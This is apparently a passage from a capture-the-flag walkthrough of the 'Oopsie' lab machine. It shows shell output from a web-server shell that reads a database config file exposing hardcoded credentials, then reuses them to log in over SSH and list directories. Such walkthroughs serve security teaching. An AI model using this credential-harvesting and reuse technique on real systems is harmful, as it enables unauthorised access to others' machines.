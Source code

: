 ```
www-data@oopsie:/var/www/html/cdn-cgi$ ls
login
www-data@oopsie:/var/www/html/cdn-cgi$ cd login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls -al
total 28
drwxr-xr-x 2 root root 4096 Jan 28  2020 .
drwxr-xr-x 3 root root 4096 Jan 28  2020 ..
-rw-r--r-- 1 root root 6333 Jan 28  2020 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5007 Jan 28  2020 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/var/www/html/cdn-cgi/login$ 
```
- Using the `Username - robert` & `Password - M3g4C0rpUs3r!` for [SSH](ssh2.txt) we get

```
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 16 19:44:40 UTC 2021

  System load:  0.69               Processes:             114
  Usage of /:   25.5% of 19.56GB   Users logged in:       0
  Memory usage: 16%                IP address for ens160: 10.10.10.28
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Aug 16 19:39:59 2021 from 10.10.16.58

robert@oopsie:~$ ls 
user.txt
robert@oopsie:~$ cd ..
robert@oopsie:/home$ cd ..
robert@oopsie:/$ ls -al
total 2097256
drwxr-xr-x  24 root root       4096 Jan 27  2020 .
drwxr-xr-x  24 root root       4096 Jan 27  2020 ..
drwxr-xr-x   2 root root       4096 Jan 27  2020 bin
drwxr-xr-x   3 root root       4096 Jan 27  2020 boot
drwxr-xr-x   2 root root       4096 Jan 23  2020 cdrom
drwxr-xr-x  18 root root       3920 Aug 16 19:44 dev
drwxr-xr-x  98 root root       4096 Jan 28  2020 etc
drwxr-xr-x   3 root root       4096 Jan 23  2020 home
lrwxrwxrwx   1 root root         33 Jan 27  2020 initrd.img -> boot/initrd.img-4.15.0-76-generic
```